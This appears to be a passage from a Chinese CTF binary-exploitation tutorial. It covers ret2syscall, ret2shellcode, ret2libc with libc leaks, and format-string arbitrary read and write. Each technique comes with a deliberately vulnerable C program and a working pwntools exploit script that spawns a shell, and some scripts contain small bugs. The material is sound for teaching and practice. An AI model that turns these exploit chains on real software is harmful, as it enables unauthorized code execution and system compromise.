接下来就是找传参的指令


只找到ebx和eax的, ecx和edx没找到, 但是可以发现在run函数里有两条指令将ecx和edx置为0


所以基本不需要我们去管, 执行ret指令的时候, ecx和edx已经为0

然后找程序里是否有"/bin/sh"字符串


参数都准备齐了, 最后只需要栈布局就行


执行完pop指令就会ret去执行int 0x80指令

#### Exploit

```python
from pwn import*


o = process('./ret2syscall')
bin_sh = 0x0804a020
pop_ebx_eax_ret = 0x0804843e
int_80 = 0x08048441
payload = 'a'*18 + 'a'*4    # 覆盖变量和ebp
payload += p32(pop_ebx_eax_ret) + p32(bin_sh) + p32(11)
payload += p32(int_80)
o.sendline(payload)
o.interactive()
```

直接在run函数的ret指令处下断点, 看栈是否和预期结果一样


一样的, 最后执行完即可拿到shell



中间的跳转执行过程可以自己去单步调试看看

### 实战


### 参考

-   https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#ret2syscall

## ret2shellcode

### 介绍

该类题型和内存段执行权限和EIP/RIP寄存器有关, 主要过程就是将shellcode注入到一段有可执行权限的内存中, 然后控制EIP/RIP指针指向这段内存, 也就是控制程序流程去执行注入的shellcode, 最后通过这段shellcode执行获取到shell

### shellcode

首先来看一下shellcode的定义

shellcode是一段用于利用软件漏洞而执行的代码，shellcode为16进制的机器码，因为经常让攻击者获得shell而得名

参考: https://baike.baidu.com/item/shellcode/4051847?fr=aladdin

对于pwn来说, shellcode就是获取flag的代码, 比如execve("/bin/sh", 0, 0)获取shell或者open("flag"), read(fd, buf, 0x50),write(1, buf, 0x50)将flag内容读取出来, 但是无论哪种方式, 最好都不要用到库函数, 而是去用系统调用, 因为库函数你得知道库的加载基地址才能用, 这样一来, shellcode就会显得非常的臃肿, 而且不方便

pwn中的shellcode编写通常是先将汇编写出来, 再用工具将汇编直接转换为机器码

例如 x86汇编

```c
; execve("/bin/sh", 0, 0)
push 0x68732f  ; 将'/sh'压入栈
push 0x6e69622f  ; 将'/bin'压入栈
push esp  ; 将当前esp指针压入栈, 也就是指向'/bin/sh'字符串的指针
pop ebx  ; 将第一个参数'/bin/sh'字符串指针存入ebx
xor ecx, ecx
xor edx, edx  ; 将第二第三个参数归零
mov eax, 11  ; 将系统调用号存入eax
int 0x80  ; 中断执行execve
```

然后pwntools内置asm函数可以将汇编代码转换为机器码(或者用pwntools工具asm)


这一串16进制数字就是机器码

pwntools中提供了很便捷的shellcode生成工具, 但是首先需要指定平台和操作系统

```python
context.os = "linux"
context.arch = "i386"  # x64的为amd64
# 或者另一种申明方式
context(os="linux", arch="i386")
```

然后pwntools中有一个模块叫做shellcraft可以生成shellcode

```python
shellc = shellcraft.sh()
```

最后用asm函数转换为机器码

```python
shellc = asm(shellc)
```

这就是完整的一个流程

### EIP/RIP控制

汇编当中有很多指令都可以控制EIP/RIP, 比如jmp类, ret指令和call指令

在pwn中有一些常用的控制方法

-   jmp esp: 这个需要shellcode注入到栈里, 这跳指令就会很方便
-   ret: 需要将shellcode地址填入ret对应栈帧处, 通常shellcode地址都是固定地址
-   call eax(或其他寄存器)\jmp eax(或其他寄存器): 将shellcode地址填入寄存器中, 然后跳转过去, 通常shellcode地址也是固定地址

shellcode地址不一定是必须要固定地址, 需要调试来看, 灵活应变

### ret2shellcode

```c
#include<stdio.h>
#include<unistd.h>

void hint() {
	__asm("jmp esp");
}

void run() {
	char buf[0x10];
	printf("Who are you?");
	read(0, buf, 0x50);
}

int main() {
	run();
	return 0;
}
// gcc ret2shellcode.c -m32 -z execstack -fno-stack-protector -masm=intel -o ret2shellcode
```


ret2shellcode最简单的判别方法就是看有没有加NX保护, NX保护开启就说明数据段, 栈之类的都不可执行(也有可能是其他做法, 做多就看出来了)

这里以一道x86栈shellcode注入来分析


read栈溢出


NX保护也没有开启


hint函数里面还包含一个jmp esp指令

那么就可以判断是shellcode注入了, 可以直接用pwntools的shellcode生成函数, 主要考虑的就是如何跳转到栈中的shellcode, 其实也挺简单的


当执行到ret时, 就会跳转到jmp esp指令处去执行, 同时当前esp会指向shellcode处, 这样执行jmp后就会控制EIP到shellcode执行

#### Exploit

```python
from pwn import*
context(os="linux", arch="i386")
o = process('./ret2shellcode')


jmp_esp = 0x804843C
shellc = asm(shellcraft.sh())
payload = 'a'*28 + p32(jmp_esp) + shellc
o.sendline(payload)
o.interactive()
```

将断点设置在run函数的ret处


可以看到jmp esp跳转的地方就是shellcode注入的地方, 执行完shellcode即可拿到shell


### 实战


### 参考

-   https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#ret2shellcode
-   https://www.freebuf.com/vuls/179724.html

## ret2libc

### 介绍

ret2libc和之前不一样的地方在于它会利用libc库中的函数来进行getshell, 需要了解一些libc库的调用方式

### 调用约定

调用约定就是规定调用方调用函数时的参数传递方式以及函数返回栈恢复的一个方案, 我们在这里主要关注的是参数传递方式, Linux中x86和x64的调用方式差别还是挺大的(注意区别和系统调用的差异)

x86系统也就是32位程序, 它的一个默认传参方式是__cdecl, 该种方式是按从右往左的循序依次入栈, 比如main函数调用printf函数

```c
#include<stdio.h>
int main() {
	int a=10, b=20, c=30;
	printf("%d, %d, %d\n", a, b, c);
	return 0
}
// gcc call_test_x86.c -o call_test_x86 -m32
```

printf有四个参数, 分别为字符串, 变量abc, 按照调用约定, 应该从右往左入栈


接着就会执行call指令跳转去执行printf函数


程序反汇编后入栈顺序和上面所讲是一直的, 断点在call指令处, 看栈风水


一样的

但是到了x64系统后, 调用约定变为了sysV, 前六个参数依靠寄存器来传递, 多出来的才会依靠栈来传递, 同样来看个例子

```c
#include<stdio.h>
int main() {
	int a=1, b=2, c=3, d=4, e=5, f=6, g=7;
	printf("%d, %d, %d, %d, %d, %d, %d\n", a, b, c, d, e, f, g);
	return 0;
}
// gcc call_test.c -o call_test
```


这里有点复杂, 参数交换比较多, 但最终应该是

```
第一个参数 -> rdi
第二个参数 -> rsi
第三个参数 -> rdx
第四个参数 -> rcx
第五个参数 -> r8
第六个参数 -> r9
第七个参数 -> 栈
第八个参数 -> 栈
```




所以x64的默认传参方式就是这种

### 延迟绑定

什么是延迟绑定? 这其实是动态链接特有的libc使用方式, 首先我们要知道一个小知识, 就是程序加载进程动态链接器是不会对库函数进行重定位处理的, 因为这样会花费一定的时间, 反而是采用了延迟绑定方式来进行, 也就是在函数第一次使用的时候再对该函数进行重定位, 那些用不到的函数就不会做处理, 对照例子来看

```c
#include<stdio.h>
int main() {
    printf("hello ");
    puts("world");
    return 0;
}
// gcc demo.c -o demo -no-pie
```

这里只用到了两个库函数: printf和puts


但是反汇编看到的两条call指令跳转的地方并不是函数的真实地址, 而是plt(过程链接表)


每个函数的plt条目占16个字节, 比如这里plt[0]是从420~430, plt[1]是从430~440, plt[2]是从440~450, plt[0]是默认存根, 它是将link_map结构的地址入栈, 然后跳转去执行_dl\_runtime\_resolve函数(具体的后面讲), plt[1]存储的是puts函数的存根, plt[2]存储的是printf函数的存根

可以看到plt[1]和plt[2]的第一条指令都是跳转去一个地址, 这个地址所在段被称为got(全局偏移量表)


这里一共5个got条目, 每个条目占8个字节, 存储的都是一些地址, got[0]存储的是动态段.dynamic地址, 主要就是提供动态链接器一些动态链接的相关信息, got[1]是运行时才会加载, 保存的是link_map结构的地址, got[2]保存的是_dl\_runtime\_resolve函数的地址, 也是运行时加载(这里就和plt[0]对应上了), got[3]和got[4]现在(没有执行过对应函数)保存的是对应plt条目的第二条push指令, 如果执行过一次对应函数, 那么就会覆盖为函数的真实地址


具体分析一下执行printf函数的过程

1.   call printf@plt
     跳转到printf的plt条目
2.   执行plt条目第一条指令jmp qword [printf@got]
     第一次执行printf所以跳转到printf的plt条目第二条指令
3.   push一个整数
     这个整数是一个标识符, 主要是标识printf的一个偏移量
4.   jmp plt[0]
     跳转到默认存根
5.   push link_map@addr
     将link_map结构地址压入栈
6.   jmp _dl\_runtime\_resolve
     跳转去执行\_dl\_runtime\_resolve函数, 完成符号解析和重定位操作, 将真实地址填入到printf@got中, 然后把控制权交给printf函数, 执行完后继续执行main函数

当第二次调用printf, printf@got已经存储的是printf的真实地址了, 所以在第二步jmp qword [printf@got]的时候就会直接去执行printf函数了, 就没有接下来的部分了

### ret2libc level01

学习过延迟绑定的知识, 我们就应该知道我们其实是可以直接用plt地址去执行库函数的(可以理解为plt地址就是库函数的另一个地址), level01要做的就是调用库函数和已有的参数进行一个拼接去执行, 以一道题来讲解

```c
#include<stdio.h>
#inlcude<stdlib.h>
char *p = "/bin/sh";
void func() { system("echo hello"); }
int main() {
        char buf[0x10];
        printf("who are you?\n");
        gets(buf);
        return 0;
}
// gcc level01.c -o level01 -fno-stack-protector -no-pie
```

有一处简单的溢出漏洞




有system函数, 但是它没有执行"/bin/sh", 所以不可以直接getshell, 要想办法构造rop链将system和"/bin/sh"拼接起来执行

这是64位程序, 传参靠寄存器, 所以要搜一个`pop rdi;ret`指令将"/bin/sh"指针传到rdi寄存器


最重要的一步就是rop链的构造, 溢出覆盖了buf和rbp, 要考虑函数返回地址要覆盖为什么. 想一个问题, 我们肯定是先要将参数给准备好了, 才能去执行函数, 所以这里的返回地址应该先填为`pop rdi;ret`地址, 将"/bin/sh"地址传入寄存器, 再通过`pop rdi;ret`的ret指令返回执行system@plt(也就是执行system)

#### Exploit

```python
from pwn import*
o = process('./level01')
elf = ELF('./level01')
system_plt = elf.plt['system']	# 通过pwntools的elf模块解析出system@plt的地址
bin_sh = 0x0000000000400644
pop_rdi = 0x0000000000400623
payload = 'a'*0x18	# 覆盖buf和rbp
payload += p64(pop_rdi) + p64(bin_sh) + p64(ret)	# 将/bin/sh传入rdi
payload += p64(system_plt)	# ret返回执行system@plt
o.sendline(payload)
o.interactive()
```


动态调试来看看, 将断点设置在main的ret指令处


可以看出来它将返回执行pop指令, 将'/bin/sh'弹入rdi, 继续执行到pop的ret指令处


可以看出来一切都符合预期的目标

### ret2libc level02

level02对比与level01区别在于程序没有现成的参数存在, 需要我们创造参数

```c
#include<stdio.h>
#include<stdlib.h>

int main() {
    char buf[0x10];
    system("echo hello");
    printf("who are you?\n");
    gets(buf);
}
// gcc level02.c -o level02 -fno-stack-protector -no-pie
```

和level01差不多, 只不过在执行system那个步骤前需要构造另一个rop链来写入"/bin/sh"到某一个固定地址, 来作为system函数的参数


这就需要借助gets函数来写入"/bin/sh"


可以选择这种可写的区域来作为gets函数的参数, 这里我选择bss段来作为写入地方

还需要找指令将bss地址传入rdi作为参数


#### Exploit

```python
from pwn import*
o = process("./level02")
elf = ELF('./level02')
gets_plt = elf.plt['gets']
system_plt = elf.plt['system']
bss_addr = 0x00601040
pop_rdi =  0x0000000000400613
payload = 'a'*0x18	# 填充buf和rbp
payload += p64(pop_rdi) + p64(bss_addr)	# bss地址传入rdi
payload += p64(gets_plt) + p64(pop_rdi) + p64(bss_addr) +p64(system_plt)	# 执行gets函数 
# 当gets执行完后去执行system("/bin/sh"), 讲一下为什么还要传参, 而不是直接跳转执行system
# 一般可能都会认为就是gets的参数就是bss_addr, 那么执行完, rdi里应该还保存这bss_addr
# 对于其他的输入函数可能是这样, 但是gets函数每输入一个字节, rdi中的指针就会加1
# 这就导致执行完gets函数rdi存储的并不指向"/bin/sh"
o.sendline(payload)
o.sendline("/bin/sh")	# 通过gets函数将"/bin/sh"输入到bss段
o.interactive()
```


调试可以参考level01自己尝试一下

### ret2libc level03

level03的难度又上了一个层次, 程序内部不会给"/bin/sh", 也不会有system@plt, 这种题需要知道一个小知识

```
函数真实地址 = libc加载基地址 + 函数在libc中的offset
```

这个公式就是level03的关键点, 虽然程序中没有system@plt或者system的真实地址, 但是有很多其他函数的真实地址存储在got条目中, 那么我们可以leak出其他函数的真实地址, 然后通过公式计算出libc加载基地址, 再找到system在libc中偏移量就可以获得system的真实地址, 最后就可以直接跳转system函数的真实地址去执行getshell("/bin/sh"也可以通过这种方法在libc中找到)

注意不同libc的函数offset是不一样的, 所以还需要去甄别libc版本

以题目来讲

```c
#include<stdio.h>
int main() {
    char buf[0x10];
    puts("who are you?");
    gets(buf);
    return 0;
}
// gcc level03.c -o level03 -fno-stack-protector -no-pie
```

简单的溢出, 我们需要先构造一个rop链来泄露库函数的真实地址, 这里需要用到puts@plt和puts@got, 因为puts@got里面存储着puts函数的真实地址, puts@plt可以调用puts将got内容打印出来

```python
from pwn import*
o = process("./level03")
elf = ELF("./level03")
pop_rdi = 0x00000000004005d3
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
payload = 'a'*0x18	# 填充buf和rbp
payload += p64(pop_rdi) + p64(puts_got)	# puts@got作为puts函数的参数
payload += p64(puts_plt)	# 执行puts函数将puts的真实地址打印出来
o.sendline(payload)
o.interactive()
```


这一串乱码就是puts函数的真实地址, 需要把它接收过来, 然后从小端序转换为正常的顺序

```python
from pwn import*
o = process("./level03")
elf = ELF("./level03")
pop_rdi = 0x00000000004005d3
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
payload = 'a'*0x18	# 填充buf和rbp
payload += p64(pop_rdi) + p64(puts_got)	# puts@got作为puts函数的参数
payload += p64(puts_plt)	# 执行puts函数将puts的真实地址打印出来
o.recv()	# 需要将输出缓冲中的东西都读取出来, 要不然就会影响下面puts_addr的读出
o.sendline(payload)
puts_addr = u64((o.recv(6)).ljust(8, '\x00'))
# u64是解包操作就是将数据从小端序变为正常顺序, 是p64的反向操作, 32为下为u32
# 同时u64只能解8字节数据, 也就是大于或小于8字节都会报错, u32是4字节
# 一般真实地址只有6个字节, recv值接收6个字节
# ljust是为了和8字节对齐, 这样才能解包
print hex(puts_addr)
o.interactive()
```


如果没有在正常的地方添加`o.recv`, 那么puts_addr其实是`who are you?`字符串的前6个字节


puts函数真实地址并没有被接收

那么就可以通过公式来计算libc加载基地址了, 这里有三种方法

-   第一种, 通过在线网站查询匹配的libc版本, 然后找puts函数的offset

有两个网站可以查询: https://libc.rip/ , https://libc.blukat.me/

前一个比较好一点, 比如我们泄露出的puts函数的真实地址为0x7f2f2ea776a0(这个地址是变化的, 但是最后三位是不变化的, 因为libc加载基地址的最后三位永远为0), 网站只需要最后三位数字就能查找


有了偏移量就可以直接计算了

```python
from pwn import*
o = process("./level03")
elf = ELF("./level03")

pop_rdi = 0x00000000004005d3
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
payload = 'a'*0x18	# 填充buf和rbp
payload += p64(pop_rdi) + p64(puts_got)	# puts@got作为puts函数的参数
payload += p64(puts_plt)	# 执行puts函数将puts的真实地址打印出来
o.recv()	# 需要将输出缓冲中的东西都读取出来, 要不然就会影响下面puts_addr的读出
o.sendline(payload)
puts_addr = u64((o.recv(6)).ljust(8, '\x00'))
print hex(puts_addr)
libc_base = puts_addr - 0x6f6a0	# 计算libc基地址
sys_addr = libc_base + 	0x453a0	# 计算system地址
bin_sh = libc_base + 0x18ce17	# 计算/bin/sh地址
o.interactive()
```

但是这种方法有个缺点就是如果libc匹配的很对就需要一条一条试

-   第二种, 题目给定了libc文件

那么就可以用pwntools内置ELF模块对libc进行解析, 然后来计算

```python
from pwn import*
o = process("./level03")
elf = ELF("./level03")
libc = ELF("./libc6_2.23-0ubuntu11.2_amd64")	# 解析libc
pop_rdi = 0x00000000004005d3
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
payload = 'a'*0x18	# 填充buf和rbp
payload += p64(pop_rdi) + p64(puts_got)	# puts@got作为puts函数的参数
payload += p64(puts_plt)	# 执行puts函数将puts的真实地址打印出来
o.recv()	# 需要将输出缓冲中的东西都读取出来, 要不然就会影响下面puts_addr的读出
o.sendline(payload)
puts_addr = u64((o.recv(6)).ljust(8, '\x00'))
print hex(puts_addr)
libc_base = puts_addr - libc.sym['puts'] # 计算libc基地址, 通过libc的符号表来查找puts的offset
sys_addr = libc_base + 	libc.sym['system']	# 计算system地址
bin_sh = libc_base + libc.search("/bin/sh").next()	# 计算/bin/sh地址
o.interactive()
```

-   第三种, 通过libc python工具

GitHub上提供了很多有关libc搜寻的工具, 比较常用的是LibcSearcher

```python
from pwn import*
from LibcSearcher import*	# 导入工具
o = process("./level03")
elf = ELF("./level03")

pop_rdi = 0x00000000004005d3
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
payload = 'a'*0x18	# 填充buf和rbp
payload += p64(pop_rdi) + p64(puts_got)	# puts@got作为puts函数的参数
payload += p64(puts_plt)	# 执行puts函数将puts的真实地址打印出来
o.recv()	# 需要将输出缓冲中的东西都读取出来, 要不然就会影响下面puts_addr的读出
o.sendline(payload)
puts_addr = u64((o.recv(6)).ljust(8, '\x00'))
print hex(puts_addr)
libc = LibcSearcher("puts", puts_addr)	# 生成LibcSearcher对象
libc_base = puts_addr - libc.dump('puts') # 计算libc基地址, 通过dump方法来查找offset
sys_addr = libc_base + 	libc.dump('system')	# 计算system地址
bin_sh = libc_base + libc.dump("str_bin_sh")	# 计算/bin/sh地址, 在工具中/bin/sh是以str_bin_sh形式存在的
o.interactive()
```

比较常用的是第三种方法, 不是所有题都会给libc

接下来考虑一个问题, 虽然泄露了函数真实地址, 但是程序直接退出了, 我们需要给puts一个函数返回地址, 也就是main函数, 可以让我们进行二次溢出, 将system和"/bin/sh"的rop链填入获取shell

#### Exploit

```python
from pwn import*
from LibcSearcher import*	# 导入工具
context.log_level = 'debug'	# 推荐加上, 日志级别设置为debug模式
o = process("./level03")
elf = ELF("./level03")

pop_rdi = 0x00000000004005d3
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.sym['main']
payload = 'a'*0x18	# 填充buf和rbp
payload += p64(pop_rdi) + p64(puts_got)	# puts@got作为puts函数的参数
payload += p64(puts_plt) + p64(main)	# 执行puts函数将puts的真实地址打印出来, 并返回再次执行main
o.recv()	# 需要将输出缓冲中的东西都读取出来, 要不然就会影响下面puts_addr的读出
o.sendline(payload)
puts_addr = u64((o.recv(6)).ljust(8, '\x00'))
print hex(puts_addr)
libc = LibcSearcher("puts", puts_addr)	# 生成LibcSearcher对象
libc_base = puts_addr - libc.dump('puts') # 计算libc基地址, 通过dump方法来查找offset
print hex(libc_base)	# 查看最后三位是否为0, 是的话基本libc就对了
sys_addr = libc_base + libc.dump('system')	# 计算system地址
bin_sh = libc_base + libc.dump("str_bin_sh")	# 计算/bin/sh地址, 在工具中/bin/sh是以str_bin_sh形式存在的

# 第二次溢出构造rop链
payload = 'a'*0x18
payload += p64(pop_rdi) + p64(bin_sh)
payload += p64(sys_addr)
o.sendline(payload)

o.interactive()
```


过程可以调试看看, 如果出错, 可以多想想, 多调试调试(调试yyds)

### 实战


### 参考

-   https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#ret2libc
-   https://www.freebuf.com/news/182894.html
-   https://ctf101.org/binary-exploitation/what-are-calling-conventions/
-   https://zhuanlan.zhihu.com/p/111028312#:~:text=%E8%B0%83%E7%94%A8%E7%BA%A6%E5%AE%9A%EF%BC%88Calling%20Convention%EF%BC%89%E6%98%AF%E8%A7%84%E5%AE%9A%E5%AD%90%E8%BF%87%E7%A8%8B%E5%A6%82%E4%BD%95%E8%8E%B7%E5%8F%96%E5%8F%82%E6%95%B0%E4%BB%A5%E5%8F%8A%E5%A6%82%E4%BD%95%E8%BF%94%E5%9B%9E%E7%9A%84%E6%96%B9%E6%A1%88%EF%BC%8C%E5%85%B6%E9%80%9A%E5%B8%B8%E4%B8%8E%E6%9E%B6%E6%9E%84%E3%80%81%E7%BC%96%E8%AF%91%E5%99%A8%E7%AD%89%E7%9B%B8%E5%85%B3%E3%80%82,%E5%85%B7%E4%BD%93%E6%9D%A5%E8%AF%B4%EF%BC%8C%E8%B0%83%E7%94%A8%E7%BA%A6%E5%AE%9A%E4%B8%80%E8%88%AC%E8%A7%84%E5%AE%9A%E4%BA%86%20%E8%B0%83%E7%94%A8%E7%BA%A6%E5%AE%9A%E8%99%BD%E7%84%B6%E5%8F%AB%E2%80%9CConvention%22%EF%BC%8C%E4%BD%86%E5%B9%B6%E4%B8%8D%E5%83%8F%E5%A6%82%E2%80%9CCamelNaming%E2%80%9D%E4%B8%80%E6%A0%B7%E5%8F%AA%E6%98%AF%E4%B8%80%E7%A7%8D%E2%80%9D%E4%B9%A0%E6%83%AF%E2%80%9C%E3%80%82%20%E8%B0%83%E7%94%A8%E7%BA%A6%E5%AE%9A%E6%98%AF%E4%B8%8D%E5%90%8C%E4%BA%BA%E7%BC%96%E5%86%99%E7%9A%84%E6%B1%87%E7%BC%96%E7%A8%8B%E5%BA%8F%E8%83%BD%E6%AD%A3%E5%B8%B8%E9%85%8D%E5%90%88%E5%B7%A5%E4%BD%9C%E7%9A%84%E4%BF%9D%E8%AF%81%E3%80%82
-   《Linux二进制分析》
-   《程序员的自我修养 —— 链接、装载与库》
-   《二进制分析实战》
-   《CTF竞赛权威指南 Pwn篇》

## format string vuln

### 介绍

格式化字符串漏洞算是一种比较常见的漏洞，而且这种漏洞影响还是挺大的，可以造成任意读和任意写的效果，格式化字符串漏洞主要是依靠printf函数来实现的函数

### printf 基础

printf的函数原型为

```c
int printf(const char* format, ...);
```

printf是具有不定参数的特性，第一个参数总是一个格式化控制字符串，如果该字符串中没有格式化控制符，那么GCC编译会自动优化，将该函数转换为puts函数。对于printf函数来说最重要的就是格式化控制符，接下来就是熟悉格式化控制符，这会在漏洞利用中非常有效

格式化控制符的标准形式为

```
%[标志][宽度][.精度][大小]类型
```

#### 类型

最常用的类型为

```
x/X：Integer类型：无符号十六进制整数
p：指针类型：将自变量显示为十六进制数字形式的地址
n：指向整数的指针,目前成功写入流或缓冲区的字符数,并将字符数写入变量
```

这三类格式化控制符在漏洞利用中最常利用, 例子:

```c
#include<stdio.h>
int main() {
	unsigned int num = 0x12345678;
	printf("x: %x\n", num);
	printf("p: %p\n", num);
	printf("aaaa%n\n", &num);
	printf("num: %x\n", num);
	return 0;
}
// gcc printf_test.c -o printf_test
```


从图中可以看出，%x和%p的功能在这其实差不多，%n是将前面成功打印处的'a'的个数写入到num中

#### 标志

标志是用来指定输出对齐方式以及控制符号、空白、前导零、小数点以及八进制和十六进制前缀的输出，在格式化字符串漏洞中常用的是一些文档中没有介绍的$符号

```
%{n}$[类型]
```

含义就是对第n个参数进行操作, 例子:

```c
#include<stdio.h>
int main() {
	int num1=1,num2=2,num3=3;
	printf("%d\t%d\t%d\n", num1, num2, num3);
	printf("%2$d\n", num1, num2, num3);
	return 0;
}
// gcc printf_test_1.c -o printf_test
```


第二个printf直接跳过num1打印num2了

#### 宽度

宽度是用来控制输出的最小字符数，如果输出达不到字数，那么就会用空格来填充，一般都是填充到字符串的左侧，宽度在漏洞利用中也常用到，之后会讲到

例子:

```c
#include<stdio.h>
int main() {
	int num = 0x12345678;
	printf("%20d\n", num);
	return 0;
}
// gcc printf_test.c -o printf_test
```


加起来刚好是20个字符

>   这个宽度也不是无限大，我试过2^30次方是可以的，但是2^31次方不可以

#### 大小

大小是指截取参数的大小，这个在漏洞任意写利用方面非常有效

常用的大小有

```
h：双字节
hh：单字节
l：4字节
ll：8字节
```

例子:

```c
#include<stdio.h>
int main() {
	int num = 0x1234567890abcdef;
	printf("%x\n", num);
	printf("%hx\n", num);
	printf("%hhx\n", num);
	printf("%llx\n", num);
	return 0;
}
// gcc printf_test.c -o printf_test
```


>
>
>更多的可以参考微软文档：https://docs.microsoft.com/zh-cn/cpp/c-runtime-library/format-specification-syntax-printf-and-wprintf-functions?view=msvc-160
>写的还是挺详细的

### 任意读

任意读的作用就是泄露栈中数据, 栈里有很多垃圾数据, 也有很多有用的数据


图中画出来的都是一些函数真实地址或者是一些环境变量地址, 栈里还可能存在一些密钥信息之类的, 都可以通过格式化字符串漏洞任意读给leak出来

任意读的原理是什么? 我们都知道printf第一个参数会给定格式化控制符, 一个格式化控制符对应一个变量, 但是如果格式化控制符的个数超过了变量会发生什么情况?

```c
#include<stdio.h>
int main() {
    int a = 1;
    int b = 2;
    printf("%d, %d, %d\n", a, b);
    return 0;
}
// gcc format_leak.c -o format_leak
```


你有没有思考过第三个数字是哪来的? 我们可以gdb调试来看一下, 将断点设置在`call printf`处来看printf的参数


这是个64位程序, 我们知道该程序传递参数是通过栈来传递的, rdi存储printf第一个参数, 也就是格式化字符串`%d, %d, %d\n`, rsi存储着第二个参数, 也就是a变量的1, rdx存储着第三个参数, 为b变量的2, 那第三个`%d`理应对应第四个参数, 也就是rcx寄存器, 但是我们并没有给printf指定变量, 但是printf还是自动识别了第四个参数, 也就是说其实打印出的第三个数就是rcx存储的内容(低4个字节的内容)

单步执行步过call指令


第三个数转换为16进制为


和rcx低4个字节完全吻合

我们再看一看x86的程序

```sh
$ gcc format_leak.c -o format_leak -m32
```

同样将断点设置在`call printf`处


x86程序参数传递是通过栈来传递, 那么按照x64程序的分析, 打印出的第三个数字在这里应该就是main+23的地址


x86也符合printf规则

我们再来看一个程序

```c
#include<stdio.h>
int main() {
    char buf[0x50];
    scanf("%s", buf);
    printf(buf);
    return 0;
}
// gcc format_leak_I.c -o format_leak_I
```

在刚开始学习C语言的时候, 肯定有这样用过printf, 用来打印出你输入的东西, 固然正常输入内容都没有太多问题, 但是如果我们输入buf为`%d,%d,%d,%d,%d,%d`会出现什么情况?


printf解析了我们的格式化控制符打印出了一些非预期的东西, 这些非预期的东西就是栈(或寄存器)内的东西


对应算一下就行, x86的情况可以自己去尝试, 出一道简单的题来看

```c
#include<stdio.h>
int main() {
    char buf[0x50];
    char ser[] = "easy_format_leak";
    printf("Locate the key?\n");
    scanf("%s", buf);
    printf(buf);
    return 0;
}
// gcc format_leak_II.c -o format_leak_II
```

我们要做的就是通过格式化字符串任意读, 把内存中的ser读取出来(局部变量, 所以ser存储在栈里), 这里我们就可以输入一大长串`%p,%p,%p,%p,%p,%p,%p,%p`


这两个就是ser内容, 将十六进制转字符串


小端序转换过来就是正常的`easy_format_leak`了, 我们可以调试来看看, 将断点设置在格式化字符串漏洞处


我们可以看到执行到printf的时候, ser就存储在栈顶, 也就是第7, 8两个参数处(也就是第6, 7两个变量), 我们之前printf基础讲过, 可以通过`$`精准匹配参数, 所以这里可以直接输入`%6$p,%7$p`定位到ser


这里再写一道小题目, 可以自己尝试去完成, 挺简单的, 原理都差不多

```c
#include<stdio.h>
#include<stdlib.h>
#include<time.h>

int main() {
	char buf[] = "Input your name:";
	int input;
	int num;
	srand((unsigned)time(NULL));
	num = rand();
	printf(buf);
	scanf("%10s", buf);
	buf[11] = '\x00';
	printf("\nWelcome,");
	printf(buf);
	printf("\nYour guess:");
	scanf("%d", &input);
	if(input == num) {
		printf("Good!\n");
	} else {
		printf("Wrong!\n");
	}
	return 0;
}
// gcc format_leak_III.c -o format_leak_III -m32
```

>   提示: 这就是一个猜数字的小游戏, 但是存在格式化字符串漏洞, 而且num是局部变量, 就存储在栈中

### 任意写

延续那个小题目, 想一个问题, 我们之所以能够泄露num是因为num是局部变量, 它是存储在栈中的, 但是如果把num换为全局变量呢? 全局变量初始化的放在.data, 未初始化的放在.bss

```c
#include<stdio.h>
#include<stdlib.h>
#include<time.h>
int num;
int main() {
	char buf[] = "Input your name:";
	int input;
	srand((unsigned)time(NULL));
	num = rand();
	printf(buf);
	scanf("%10s", buf);
	buf[11] = '\x00';
	printf("\nWelcome,");
	printf(buf);
	printf("\nYour guess:");
	scanf("%d", &input);
	if(input == num) {
		printf("Good!\n");
	} else {
		printf("Wrong!\n");
	}
	return 0;
}
// gcc format_writein.c -o format_writein -no-pie
```

这里我们就不能借用任意读来leak num, 我们在printf基础中讲过`%n`格式化控制符, 它的作用是往指定地址写入东西, 转换一下思维, 既然我们无法读num, 那么我们能不能通过`%n`来覆盖num呢? 这就是任意写

任意写首先需要知道你要写入地方的地址


然后需要将这个地址写入到栈里给`%n`用

接下来我们需要gdb调试辅助来看一些东西, 把断点设置在格式化字符串漏洞处, 然后name输入"aaaaaaaa"


`aaaaaaaa`真实输入相当于printf的第9个参数, 也就是说我们如果输入num的地址也就在这, 然后`%n`要作用于该地址, 所以需要填`%8$n`, 这样就会往num写入

按照常理应该这样写payload

```python
payload = p64(num_addr) + "%8$n"
```

然后就会往num写入8(p64打印8字节)

但是有个严重的问题,就是printf是'\x00'截断打印的,遇到'\x00'就停止了,num_addr由于不满8字节,所以p64会自动添加'\x00',这就导致后面的东西根本不会被解析,在p64(num_addr)处就结束了,这不是我们想要的,解决方法就是将p64(num_addr)后移一个栈帧,这时候地址就是printf的第10个参数了,%8$n要改为%9$n,同时要将%9$n那个栈帧给填满8个字节("%9$n"才4个字节,要填充4个字节,要不num_addr就会出现偏差,%n就识别不来),这时候写入num为0(因为%n前面没有任何打印)


#### Exploit

```py
from pwn import* 
o=process('./format_writein')
num = 0x601064
payload = '%9$naaaa' + p64(num)
o.sendline(payload)
o.sendline('0')
o.interactive()
```


还是gdb来调试看一下,把断点设置在格式化字符串漏洞处


栈填充和我们预想的一样


这时候num还没有被覆盖,单步执行


这只是任意写最简单的利用方式,任意写还可以去覆盖.got之类的东西

### 实战

### 参考

-   《CTF竞赛权威指南Pwn篇》
-   《C和C安全编码》
-   https://ctf-wiki.org/pwn/linux/user-mode/fmtstr/fmtstr-intro/

## format string attack stack


## format string attack subfunction


## integer overflow

## ropchain

### 介绍

会在做题的时候遇到一类静态编译的题型, 静态编译有一个问题很大, 就是gadget太多了, 这就有很大的利用空间, 比如mprotect修改权限shellcode注入之类的, 还有一个就是这里的ropchain, ropchain本质来说就是程序中存在的一些指令, 然后通过不断执行跳转指令达到获取shell的目的, 现在有很多自动化搜寻ropchain的工具, 比如说ROPgadget或者Ropper

>   注意: 这种做法只适合输入无限制那种, 如果是有溢出字节限制的可能要改方法

### ropchain

用一道题来分析这个题型

```c
#include<stdio.h>

int main() {
    char buf[0x10];
    printf("Who are you?\n");
    gets(buf);
    return 0;
}
